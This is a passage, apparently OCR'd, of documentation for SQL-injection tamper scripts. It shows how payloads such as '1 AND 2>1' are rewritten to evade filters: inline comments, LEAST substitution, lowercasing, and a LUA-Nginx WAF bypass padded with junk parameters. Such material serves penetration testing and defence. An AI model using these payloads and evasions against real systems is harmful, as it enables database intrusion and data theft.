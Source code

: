 -- After using the tamper  
IF(ISNULL(1),2,1)

- informationschemacomment

Add an inline comment (/**/) to the end of all occurrences of (MySQL) `information_schema` identifier. For example:

-- First payload  
SELECT table_name FROM INFORMATION_SCHEMA.TABLES  
  
-- After using the tamper  
SELECT table_name FROM INFORMATION_SCHEMA/**/.TABLES

- least

Replaces greater than operator (‘>’) with `LEAST` counterpart. For example:

-- First payload  
1 AND A > B  
  
-- After using the tamper  
1 AND LEAST(A,B+1)=B+1

- lowercase

Replaces each keyword character with lower case value. For example:

-- First payload  
INSERT INTO  
  
-- After using the tamper  
insert into

- luanginx

LUA-Nginx WAFs Bypass. For example:

-- First payload  
1 AND 2>1  
  
-- After using the tamper  
34=&Xe=&90=&Ni=&rW=&lc=&te=&T4=&zO=&NY=&B4=&hM=&X2=&pU=&D8=&hm=&p0=&7y=&18=&RK=&Xi=&5M=&vM=&hO=&bg=&5c=&b8=&dE=&7I=&5I=&90=&R2=&BK=&bY=&p4=&lu=&po=&Vq=&bY=&3c=&ps=&Xu=&lK=&3Q=&7s=&pq=&1E=&rM=&FG=&vG=&Xy=&tQ=&lm=&rO=&pO=&rO=&1M=&vy=&La=&xW=&f8=&du=&94=&vE=&9q=&bE=&lQ=&JS=&NQ=&fE=&RO=&FI=&zm=&5A=&lE=&DK=&x8=&RQ=&Xw=&LY=&5S=&zi=&Js=&la=&3I=&r8=&re=&Xe=&5A=&3w=&vs=&zQ=&1Q=&HW=&Bw=&Xk=&LU=&Lk=&1E=&Nw=&pm=&ns=&zO=&xq=&7k=&v4=&F6=&Pi=&vo=&zY=&vk=&3w=&tU=&nW=&TG=&NM=&9U=&p4=&9A=&T8=&Xu=&xa=&Jk=&nq=&La=&lo=&zW=&xS=&v0=&Z4=&vi=&Pu=&jK=&DE=&72=&fU=&DW=&1g=&RU=&Hi=&li=&R8=&dC=&nI=&9A=&tq=&1w=&7u=&rg=&pa=&7c=&zk=&rO=&xy=&ZA=&1K=&ha=&tE=&RC=&3m=&r2=&Vc=&B6=&9A=&Pk=&Pi=&zy=&lI=&pu=&re=&vS=&zk=&RE=&xS=&Fs=&x8=&Fe=&rk=&Fi=&Tm=&fA=&Zu=&DS=&No=&lm=&lu=&li=&jC=&Do=&Tw=&xo=&zQ=&nO=&ng=&nC=&PS=&fU=&Lc=&Za=&Ta=&1y=&lw=&pA=&ZW=&nw=&pM=&pa=&Rk=&lE=&5c=&T4=&Vs=&7W=&Jm=&xG=&nC=&Js=&xM=&Rg=&zC=&Dq=&VA=&Vy=&9o=&7o=&Fk=&Ta=&Fq=&9y=&vq=&rW=&X4=&1W=&hI=&nA=&hs=&He=&No=&vy=&9C=&ZU=&t6=&1U=&1Q=&Do=&bk=&7G=&nA=&VE=&F0=&BO=&l2=&BO=&7o=&zq=&B4=&fA=&lI=&Xy=&Ji=&lk=&7M=&JG=&Be=&ts=&36=&tW=&fG=&T4=&vM=&hG=&tO=&VO=&9m=&Rm=&LA=&5K=&FY=&HW=&7Q=&t0=&3I=&Du=&Xc=&BS=&N0=&x4=&fq=&jI=&Ze=&TQ=&5i=&T2=&FQ=&VI=&Te=&Hq=&fw=&LI=&Xq=&LC=&B0=&h6=&TY=&HG=&Hw=&dK=&ru=&3k=&JQ=&5g=&9s=&HQ=&vY=&1S=&ta=&bq=&1u=&9i=&DM=&DA=&TG=&vQ=&Nu=&RK=&da=&56=&nm=&vE=&Fg=&jY=&t0=&DG=&9o=&PE=&da=&D4=&VE=&po=&nm=&lW=&X0=&BY=&NK=&pY=&5Q=&jw=&r0=&FM=&lU=&da=&ls=&Lg=&D8=&B8=&FW=&3M=&zy=&ho=&Dc=&HW=&7E=&bM=&Re=&jk=&Xe=&JC=&vs=&Ny=&D4=&fA=&DM=&1o=&9w=&3C=&Rw=&Vc=&Ro=&PK=&rw=&Re=&54=&xK=&VK=&1O=&1U=&vg=&Ls=&xq=&NA=&zU=&di=&BS=&pK=&bW=&Vq=&BC=&l6=&34=&PE=&JG=&TA=&NU=&hi=&T0=&Rs=&fw=&FQ=&NQ=&Dq=&Dm=&1w=&PC=&j2=&r6=&re=&t2=&Ry=&h2=&9m=&nw=&X4=&vI=&rY=&1K=&7m=&7g=&J8=&Pm=&RO=&7A=&fO=&1w=&1g=&7U=&7Y=&hQ=&FC=&vu=&Lw=&5I=&t0=&Na=&vk=&Te=&5S=&ZM=&Xs=&Vg=&tE=&J2=&Ts=&Dm=&Ry=&FC=&7i=&h8=&3y=&zk=&5G=&NC=&Pq=&ds=&zK=&d8=&zU=&1a=&d8=&Js=&nk=&TQ=&tC=&n8=&Hc=&Ru=&H0=&Bo=&XE=&Jm=&xK=&r2=&Fu=&FO=&NO=&7g=&PC=&Bq=&3O=&FQ=&1o=&5G=&zS=&Ps=&j0=&b0=&RM=&DQ=&RQ=&zY=&nk=&1 AND 2>1
